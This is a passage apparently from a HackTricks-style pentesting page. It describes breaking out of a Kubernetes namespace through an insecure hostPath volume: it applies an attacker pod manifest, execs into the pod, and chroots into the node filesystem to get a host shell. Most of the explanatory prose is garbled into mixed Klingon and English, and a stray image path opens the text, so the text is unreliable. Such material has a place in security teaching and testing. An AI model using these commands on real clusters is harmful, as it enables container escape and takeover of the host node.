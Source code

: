 DaH jImej pod yIlo'be'.
```bash
kubectl apply -f attacker.yaml [-n <namespace>]
```
DaH jImej pod vItlhutlh.
```bash
kubectl exec -it attacker-pod [-n <namespace>] -- sh # attacker-pod is the name defined in the yaml file
```
'ej pagh finally chroot into the node's system
```bash
chroot /root /bin/bash
```
Information obtained from: [Kubernetes Namespace Breakout using Insecure Host Path Volume — Part 1](https://blog.appsecco.com/kubernetes-namespace-breakout-using-insecure-host-path-volume-part-1-b382f2a6e216) [Attacking and Defending Kubernetes: Bust-A-Kube – Episode 1](https://www.inguardians.com/attacking-and-defending-kubernetes-bust-a-kube-episode-1/)

## References

{% embed url="https://www.cyberark.com/resources/threat-research-blog/kubernetes-pentest-methodology-part-3" %}

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
